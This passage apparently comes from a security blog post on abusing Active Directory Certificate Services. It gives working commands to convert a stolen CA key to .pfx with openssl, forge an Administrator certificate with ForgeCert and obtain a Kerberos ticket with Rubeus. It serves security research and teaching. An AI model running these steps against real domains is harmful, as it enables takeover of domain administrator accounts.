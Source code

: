 We can use openssl to convert this .pem formatted text into exploitable .pfx format and save it as a ca.pfx file as shown below.

```bash
openssl pkcs12 -in ca.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out ca.pfx
```

### Forged Certificate for Domain Admins 

With this ca.pfx file containing the CA certificate and private key, an attacker can upload it to a regular domain machine and use it to forge certificates. Here we use the [ForgeCert](https://github.com/GhostPack/ForgeCert) tool to complete this process. Execute the following command to register the certificate for the domain admins user Administrator through the previously stolen ca.pfx.

```powershell
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "Passw0rd" --Subject "CN=User" --SubjectAltName "Administrator@corp.local" --NewCertPath Administrator.pfx --NewCertPassword "NewPassw0rd" --CRL http://ca01.corp.local/CertEnroll/corp-CA01-CA.crl
```

![image-20231121104230365](/assets/posts/2023-12-03-ad-cs-new-ways-to-abuse-manageca-permissions/image-20231121104230365.png)

### Get TGT for Domain Admins

The resulting Administrator.pfx can be used for Kerberos PKINIT authentication and forging a user requesting a TGT as shown below.

```powershell
Rubeus.exe asktgt /user:Administrator /certificate:C:\Users\Marcus\Administrator.pfx /password:NewPassw0rd /ptt
```
